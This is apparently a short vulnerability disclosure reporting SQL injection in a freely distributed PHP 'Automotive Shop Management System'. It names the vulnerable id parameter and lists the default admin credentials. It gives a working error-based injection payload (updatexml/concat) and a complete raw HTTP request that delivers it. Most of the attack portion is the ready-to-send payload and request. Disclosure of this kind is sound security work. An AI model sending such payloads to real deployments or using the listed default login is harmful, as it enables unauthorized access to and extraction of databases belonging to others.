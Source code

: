 # Automotive Shop Management System v1.0 by oretnom23 has SQL injection

BUG_Author: huchengrong

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15312/automotive-shop-management-system-phpoop-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File:  /asms/admin/?page=transactions/manage_transaction&id=

Vulnerability location:  /asms/admin/?page=transactions/manage_transaction&id=, id

dbname =asms_db,length=7

[+] Payload: /asms/admin/?page=transactions/manage_transaction&id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /asms/admin/?page=transactions/manage_transaction&id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0bfse7548hblm5lblclp48r057; dou_member_id=1; dou_member_code=3a2d7d2301afce4cf127
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/198027275-287b98ae-d47d-41a8-ba8f-5fac36307472.png)
